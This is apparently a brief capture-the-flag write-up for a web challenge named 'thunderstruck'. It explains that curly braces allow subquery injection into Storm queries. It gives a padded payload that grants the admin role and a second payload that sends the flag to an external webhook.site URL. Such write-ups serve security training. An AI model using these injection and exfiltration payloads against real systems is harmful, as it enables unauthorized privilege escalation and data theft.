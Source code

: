 # thunderstruck (web)

Sign up with username test2, then lookup:

```
{auth:creds=(thunderstruck,test2) [+#role.admin]                                                                               }
```
(Note the spaces, needs to be 128 chars).

This gives you admin permissions, to see the `/admin` page. Here we see that the flag was imported as an `it:dev:str`

This is then exfiltrated with another lookup:

`{$x=$lib.str.concat(https://webhook.site/05fbedac-c57d-481e-8154-d03080ea9858?,{it:dev:str}) $lib.inet.http.get($x)            }`

Curly braces are for subquery injection in the storm queries used when doing lookups
